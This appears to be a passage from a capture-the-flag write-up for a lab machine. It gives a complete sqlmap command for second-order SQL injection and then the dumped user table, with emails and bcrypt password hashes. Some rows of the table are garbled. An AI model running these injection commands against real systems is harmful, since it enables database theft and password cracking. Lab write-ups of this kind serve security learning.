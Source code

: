 maybe we have to find hashes? or dump some users using sql injection?

Then go with SQLMAP,

~~~
sqlmap -r genre1.req --second-req feed2.req --batch --technique=BT --dbms=MYSQL --risk=3 --level=5
~~~

Here 

we dumped..!!

```
1       | steve                    | 1       | steve@intentions.htb       | food,travel,nature | $2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa | 2023-02-02 17:43:00 | 2023-02-02 17:43:00 |
| 2       | greg                     | 1       | greg@intentions.htb        | food,travel,nature | $2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m                             | 2023-02-02 17:44:11 | <blank>             |
       | <blank>                  | 0       | `a                         | <blank>            | <blank>                                                      | <blank>             | 2022                |
| 4       | Camren Ullrich           | <blank> | i                          |  Xfd+ ravel,nature | $2y$10$WkBf7NFjzE5GI5SP7hB5/uA9Bi/BmoNFIUfhBye4gUql/JIc/GTE2 | 100$                | 2023-02-02 18:02:37 |
| 5       | Mr. Lucius Towne I       | 0       | jones.laury@example.com    | food,travel,nature | $2y$10$JembrsnTWIgDZH3vFo1qT.Zf/hbphiPj1vGdVMXCk56icvD6mn/ae | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
| 6       | Jasen Mosciski           | 0       | wanda93@example.org        | food,travel,nature | $2y$10$oKGH6f8KdEblk6hzkqa2meqyDeiy5gOSSfMeygzoFJ9d1eqgiD2rW | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
| 7       | Monique D'Amore          | 0       | mwisoky@example.org        | food,travel,nature | $2y$10$pAMvp3xPODhnm38lnbwPYuZN0B/0nnHyTSMf1pbEoz6Ghjq.ecA7. | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
| 8       | Desmond Greenfelder      | 0       | lura.zieme@example.org     | food,travel,nature | $2y$10$.VfxnlYhad5YPvanmSt3L.5tGaTa4/dXv1jnfBVCpaR2h.SDDioy2 | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
| 9       | Mrs. Roxanne Raynor      | 0       | pouros.marcus@example.net  | food,travel,nature | $2y$10$UD1HYmPNuqsWXwhyXSW2d.CawOv1C8QZknUBRgg3/Kx82hjqbJFMO | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
| 10      | Rose Rutherford          | 0       | mellie.okon@example.com    | food,travel,nature | $2y$10$4nxh9pJV0HmqEdq9sKRjKuHshmloVH1eH0mSBMzfzx/kpO/XcKw1m | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
| 11      | Dr. Chelsie Greenholt I  | 0       | trace94@example.net        | food,travel,nature | $2y$10$by.sn.tdh2V1swiDijAZpe1bUpfQr6ZjNUIkug8LSdR2ZVdS9bR7W | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
| 12      | Prof. Johanna Ullrich MD | 0       | kayleigh18@example.com     | food,travel,nature | $2y$10$9Yf1zb0jwxqeSnzS9CymsevVGLWIDYI4fQRF5704bMN8Vd4vkvvHi | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
| 13      | Prof. Gina Brekke        | 0       | tdach@example.com          | food,travel,nature | $2y$10$UnvH8xiHiZa.wryeO1O5IuARzkwbFogWqE7x74O1we9HYspsv9b2. | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
| 14      | Jarrett Bayer            | 0       | lindsey.muller@example.org | food,travel,nature | $2y$10$yUpaabSbUpbfNIDzvXUrn.1O8I6LbxuK63GqzrWOyEt8DRd0ljyKS | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
| 15      | Macy Walter              | 0       | tschmidt@example.org       | food,travel,nature | $2y$10$01SOJhuW9WzULsWQHspsde3vVKt6VwNADSWY45Ji33lKn7sSvIxIm | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
```

